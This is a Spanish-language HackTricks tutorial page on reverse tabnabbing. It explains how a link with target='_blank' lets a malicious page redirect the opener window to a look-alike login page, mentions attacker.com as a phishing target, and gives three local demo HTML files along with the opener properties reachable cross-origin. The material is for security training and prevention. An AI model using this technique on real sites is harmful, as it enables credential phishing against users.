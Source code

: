 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Descripción

En una situación donde un **atacante** puede **controlar** el argumento **`href`** de una etiqueta **`<a`** con el atributo **`target="_blank" rel="opener"`** que va a ser clickeada por una víctima, el **atacante** **apunta** este **enlace** a una web bajo su control (un **sitio web** **malicioso**). Luego, una vez que la **víctima hace clic** en el enlace y accede al sitio web del atacante, este **sitio web** **malicioso** podrá **controlar** la **página** **original** a través del objeto javascript **`window.opener`**.\
Si la página no tiene **`rel="opener"` pero contiene `target="_blank"` y tampoco tiene `rel="noopener"`** también podría ser vulnerable.

Una forma regular de abusar de este comportamiento sería **cambiar la ubicación de la web original** a través de `window.opener.location = https://attacker.com/victim.html` a una web controlada por el atacante que **se parezca a la original**, para que pueda **imitar** el **formulario de inicio de sesión** del sitio web original y pedir credenciales al usuario.

Sin embargo, ten en cuenta que como el **atacante ahora puede controlar el objeto de ventana del sitio web original**, puede abusar de ello de otras maneras para realizar **ataques más sigilosos** (¿quizás modificando eventos de javascript para exfiltrar información a un servidor controlado por él?)

# Resumen

## Con enlace de retroceso

Enlace entre páginas padre e hijo cuando no se utiliza el atributo de prevención:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Sin enlace de retroceso

Enlace entre páginas padre e hijo cuando se utiliza el atributo de prevención:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Ejemplos <a href="#examples" id="examples"></a>

Crea las siguientes páginas en una carpeta y ejecuta un servidor web con `python3 -m http.server`\
Luego, **accede** a `http://127.0.0.1:8000/`vulnerable.html, **haz clic** en el enlace y nota cómo la **URL** del **sitio web** **original** **cambia**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Propiedades accesibles <a href="#accessible-properties" id="accessible-properties"></a>

En el escenario donde ocurre un acceso **cross-origin** (acceso entre diferentes dominios), las propiedades de la instancia de la clase JavaScript **window**, a la que se hace referencia mediante el objeto JavaScript **opener**, que pueden ser accedidas por un sitio malicioso están limitadas a las siguientes:

- **`opener.closed`**: Esta propiedad se accede para determinar si una ventana ha sido cerrada, devolviendo un valor booleano.
- **`opener.frames`**: Esta propiedad proporciona acceso a todos los elementos iframe dentro de la ventana actual.
- **`opener.length`**: El número de elementos iframe presentes en la ventana actual es devuelto por esta propiedad.
- **`opener.opener`**: Se puede obtener una referencia a la ventana que abrió la ventana actual a través de esta propiedad.
- **`opener.parent`**: Esta propiedad devuelve la ventana padre de la ventana actual.
- **`opener.self`**: El acceso a la ventana actual se proporciona mediante esta propiedad.
- **`opener.top`**: Esta propiedad devuelve la ventana del navegador más alta.

Sin embargo, en instancias donde los dominios son idénticos, el sitio malicioso obtiene acceso a todas las propiedades expuestas por la referencia del objeto JavaScript [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window).

# Prevención

La información de prevención está documentada en la [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

## Referencias

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
